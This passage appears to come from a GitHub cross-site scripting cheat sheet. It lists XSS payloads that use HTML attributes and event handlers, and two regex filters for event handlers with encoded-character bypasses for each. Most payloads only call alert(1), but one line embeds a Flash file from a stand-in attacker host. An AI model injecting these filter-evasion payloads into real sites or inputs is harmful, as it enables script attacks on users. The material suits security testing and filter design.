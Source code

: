 ## JavaScript using HTML Attributes
Alternatively, JavaScript can also be executed through the use of HTML attributes, below are some few examples:
- `<a href="javascript:alert(1)">show</a>`
- `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>`
- `<form action="javascript:alert(1)"><button>send</button></form>`
- `<object data="javascript:alert(1)">`
- `<object data="data:text/html,<script>alert(1)</script>">`
- `<embed code="//hacker.com/xss.swf" allowscriptaccess="always">`
> Note: The `swf` is a defunct Adobe Flash file format. 
## JavaScript using HTML Events
Events are the way that HTML DOM adds interactivity between the website and its visitors.

Almost all event handlers identifier start with `on` and are followed by the name of the event. One of the most used is `onerror`. For example:
```html
<img src=x onerror=alert(1)>
```

Below are some of HTML 4 tag examples:
- `<body onload=alert(1)>`
- `<input type=image src=x:x onerror=alert(1)>`
- `<form oninput=alert(1)><input></form>`
- `<textarea autofocus onfocus=alert(1)>`

While below are some HTML 5 tags examples:
- `<svg onload=alert(1)>`
- `<keygen autofocus onfocus=alert(1)>`
- `<video><source onerror="alert(1)">`
- `<marquee onstart=alert(1)>`
### Filter Rules
The following is a very common regex used to filter all events that start with `on` in order to block this type of payload:
```txt
(on\w+\s*=)
```

However, thanks to a mix of HTML and browser "dynamisms", we can easily bypass this first filter, first example:
- `<svg/onload=alert(1)>`
- `<svg//////onload=alert(1)>`
- `<svg id=x;onload=alert(1)>`

Due to this, the filter has been upgraded to the following, which is more restrictive:
```txt
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
```

The following are the bypasses for the second filter, as some browsers convert the control character to a space, thus the `\s` regex rule is not enough to cover all possible characters:
- `<svg onload%09=alert(1)>` (Works on all browsers except Safari)
- `<svg %09onload=alert(1)>`
- `<svg onload%09%20%28%2C%3B=alert(1)>`
- `<svg onload%0B=alert(1)>` (works on IE only)

The following is a list of control characters allowed between the event name attribute (e.g `onload`) and the equal sign character, or just before the event name:
- IExplorer = `0x09`,`0x0B`,`0x0C`,`0x20`,`0x3B`
- Chrome = `0x09`,`0x20`,`0x28`,`0x2C`,`0x3B`
- Safari = `0x2C`,`0x3B`
- FireFox = `0x09`,`0x20`,`0x28`,`0x2C`,`0x3B`
- Opera = `0x09`,`0x20`,`0x2C`,`0x3B`
- Android = `0x09`,`0x20`,`0x28`,`0x2C`,`0x3B`
### Fuzz Testing Filter Rules
Gareth Heyes has created two fuzzer tests:
- [Characters allowed after attribute name](http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name)
- [Characters allowed before attribute name](http://shazzer.co.uk/vector/Characters-allowed-before-attribute-name)
